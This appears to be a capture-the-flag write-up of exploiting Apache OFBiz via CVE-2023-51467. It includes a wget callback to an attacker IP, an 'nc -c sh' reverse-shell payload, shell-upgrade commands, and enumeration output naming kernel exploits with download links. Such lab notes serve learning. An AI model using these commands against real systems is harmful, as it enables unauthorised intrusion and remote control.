 We have `xmlrpc` which can be useful for achieving `RCE`.

Searching for infos on internet I found a working-in-progress pr for a nuclei scanner

https://github.com/projectdiscovery/nuclei-templates/pull/8895

which led me to find the a valid POC by the `PR` author

https://github.com/JaneMandy/CVE-2023-51467/blob/main/exp.py

Using the following command led me to get a callback.
I called the exploit `exploit.py` in this directory.

```
wget http://10.10.16.28:1234/test

CALLBACK RECEVIED ON nc -lvnp 1234
```

rce confirmed

working paylaod for reverse shell: `nc -c sh 10.10.16.28 1234`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
```

we're already ofbiz and we can get the user flag.

# ROOT

Let's run `lse.sh` and `linpeas.sh`

```
[!] sec020 Can we write to a binary with caps?............................. yes!
---                                                                                                       
/home/ofbiz/l/python3  
```

```
[+] [CVE-2021-3490] eBPF ALU32 bounds tracking for bitwise ops

   Details: https://www.graplsecurity.com/post/kernel-pwning-with-ebpf-a-love-story
   Exposure: probable
   Tags: ubuntu=20.04{kernel:5.8.0-(25|26|27|28|29|30|31|32|33|34|35|36|37|38|39|40|41|42|43|44|45|46|47|48|49|50|51|52)-*},ubuntu=21.04{kernel:5.11.0-16-*}
   Download URL: https://codeload.github.com/chompie1337/Linux_LPE_eBPF_CVE-2021-3490/zip/main
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: ubuntu=(20.04|21.04),[ debian=11 ]
   Download URL: https://haxx.in/files/dirtypipez.c
```
